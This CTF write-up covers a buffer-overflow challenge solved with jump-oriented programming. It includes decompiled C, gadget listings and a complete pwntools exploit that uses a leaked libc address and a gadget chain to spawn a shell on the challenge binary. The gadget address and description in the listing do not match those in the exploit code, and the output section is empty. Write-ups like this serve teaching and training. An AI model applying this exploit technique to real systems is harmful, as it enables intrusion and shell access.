

# Writeup: Jump-Oriented Programming (JOP) Challenge from BattleCTF 2024 Qualifier [Pwn]

## Challenge Overview

This challenge demonstrates the use of Jump-Oriented Programming (JOP), a technique in binary exploitation where code execution flow is hijacked using gadgets that control jump instructions. The goal is to exploit a vulnerable program to execute the system("/bin/sh") function, providing a shell.

---

## JOP Explained
Jump-Oriented Programming is an advanced exploitation technique often used in scenarios where traditional **Return-Oriented Programming (ROP)** is less feasible due to stack protection mechanisms like **Control Flow Enforcement Technology (CET)**. Instead of relying on `ret` instructions, JOP chains gadgets that end in jump or indirect call instructions (`jmp` or `call`). These gadgets manipulate CPU registers to control execution flow and achieve arbitrary code execution.

More about [Control Flow Enforcement Technology (CET)](https://www.intel.com/content/www/us/en/developer/articles/technical/technical-look-control-flow-enforcement-technology.html)

### JOP Workflow
1. **Initial Control**:
   - Gain control over the Instruction Pointer (IP) by exploiting a vulnerability, such as a buffer overflow.
2. **Register Setup**:
   - Use gadgets to load necessary values into registers.
3. **Execution Redirection**:
   - Redirect control to a jump or call gadget, maintaining execution flow through chained gadgets.

### Benefits of JOP
- Bypasses stack protections like **Shadow Stack** or **CET**.
- Relies on `jmp` or `call` instructions rather than `ret`, reducing dependence on stack manipulation.

---

## Challenge Analysis

### Provided Binary

Challenge : [poj](https://github.com/0xbugpwn/AfricabattleCTF2024/tree/main/Qualifier/Pwn/poj)

#### Source Code
```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  write(1, "Africa battle CTF 2024\n", 0x17uLL);
  printf("Write() address : %p\n", &write);
  return sub_115C();
}

ssize_t sub_115C()
{
  _BYTE buf[64]; // [rsp+0h] [rbp-40h] BYREF

  return read(0, buf, 0x100uLL);
}
```

### Vulnerability Breakdown
1. **Buffer Overflow**:
   - The `read` function in `sub_115C` reads up to 256 bytes (`0x100`) into a 64-byte buffer (`buf`), causing a classic buffer overflow.
   - This allows overwriting the saved return address on the stack.
2. **Function Leak**:
   - The `main` function leaks the address of `write` from the Global Offset Table (GOT), providing a way to calculate the base address of the loaded `libc`.

---

## Exploitation Plan
The goal is to execute `system("/bin/sh")` using a JOP chain. 

### Steps:
1. **Leverage Address Leak**:
   - Extract the `write` function address from the GOT leak to calculate the base address of `libc`.
2. **Locate Gadgets**:
   - Identify JOP gadgets in `libc` to manipulate registers and control execution.
3. **Craft Payload**:
   - Use the buffer overflow to overwrite the saved return address with a JOP chain.
4. **Trigger Shell**:
   - Call `system("/bin/sh")` with properly set arguments.

---

## Gadgets

```asm
$ ROPgadget --binary libc.so.6

0x0000000000040647 : pop rax ; ret
...
...
0x000000000010b87c : pop rax ; pop rdi ; call rax
```

---
## Exploit Code
```python
from pwn import *

# Establish connection

sh = process('./player/poj')
if args.REMOTE:
	sh = remote("challenge.bugpwn.com",1003)


libc = ELF('./player/libc.so.6',checksec=False)

# Gadgets
pop_rax_ret = 0x0000000000040647		# Gadget to set RAX
pop_rdi_jmp_rax = 0x000000000002b003	# Gadget to set RDI and jump to RAX
  
# Parse leaked address
sh.recvline()
sh.recvuntil(b'Write() address : ')
libc.address = int(sh.recvuntil(b'\n'),16) - libc.sym['write']

# Payload construction
payload = b"A"*72								# Overflow buffer and overwrite saved RIP
payload += p64(libc.address + pop_rax_ret)		# Set RAX to point to system()
payload += p64(libc.sym['system'])				# Address of system()
payload += p64(libc.address + pop_rdi_jmp_rax)	# Set RDI and jump to RAX
payload += p64(next(libc.search(b'/bin/sh')))	# Argument: "/bin/sh"
 
# Send payload
sh.send(payload)
sh.interactive()
```

---

## Explanation of the Exploit

### Step 1: Extract libc Address
- The challenge provides the address of `write` in the GOT.
- Using this leak, the `libc` base address is calculated by subtracting the offset of `write` in `libc`.

### Step 2: Identify Gadgets
- **`pop_rax_ret`**: Used to load `rax` with the address of `system`.
- **`pop_rdi_jmp_rax`**: Loads the first argument (`rdi`) with the address of `/bin/sh` and jumps to the value in `rax`.

### Step 3: Create Payload
- The payload begins with 72 bytes of padding to overflow the buffer and overwrite the saved return address.
- Gadgets are chained to set up the necessary registers:
  - Load `rax` with the address of `system`.
  - Load `rdi` with the address of `/bin/sh`.
  - Jump to `system` using the `jmp rax` instruction in the second gadget.

### Step 4: Execute `system("/bin/sh")`
- When the JOP chain executes, the program spawns a shell by calling `system` with the argument `/bin/sh`.

---

## Exploit Output
Running the exploit results in:




---

## Key Takeaways
1. **Jump-Oriented Programming**:
   - Demonstrates chaining gadgets ending in jump or call instructions instead of return instructions.
   - Provides an alternative to traditional ROP for bypassing modern defenses.

2. **Gadget Discovery**:
   - Exploitation relies on careful analysis of the binary and libraries to identify suitable gadgets.

3. **Importance of Address Leak**:
   - A single memory leak can compromise an entire binary, as seen with the `write` address.


This challenge highlights the sophistication of modern exploitation techniques like JOP and their reliance on precise control of execution flow.
